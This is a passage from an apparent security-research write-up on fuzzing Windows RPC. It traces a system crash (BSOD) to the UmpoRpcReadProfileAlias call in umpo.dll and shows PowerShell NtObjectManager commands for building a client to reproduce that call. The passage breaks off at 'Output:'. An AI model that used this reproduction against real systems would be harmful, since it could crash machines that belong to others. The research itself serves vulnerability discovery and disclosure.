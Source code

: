 ![BSOD shows that a critical process died (don't ask me why it is green)](/assets/img/posts/unplugging-power-service/1.png)
_BSOD shows that a critical process died (don't ask me why it is green)_

### Finding the responsible RPC call
The fuzzer keeps a logfile of RPC calls that it is going to invoke before invoking them. The last line of the logfile before crashing the system noted:

```
RPCserver: umpo.dll 
Procedure: UmpoRpcReadProfileAlias
Params: , System.Byte[], 1001337
------------------------
```

## Manually reproducing the RPC call
With this information, we can now use NtObjectManager to manually reproduce the RPC call. We can create a RPC client from where we can view the vulnerable method and it's parameters:
```powershell
$rpcinterfaces = "C:\windows\system32\umpo.dll" | Get-RpcServer
$client = $rpcinterfaces | Get-RpcClient
$client | gm | Where-Object { $_.Name -eq 'UmpoRpcReadProfileAlias' } | fl
```
Output:
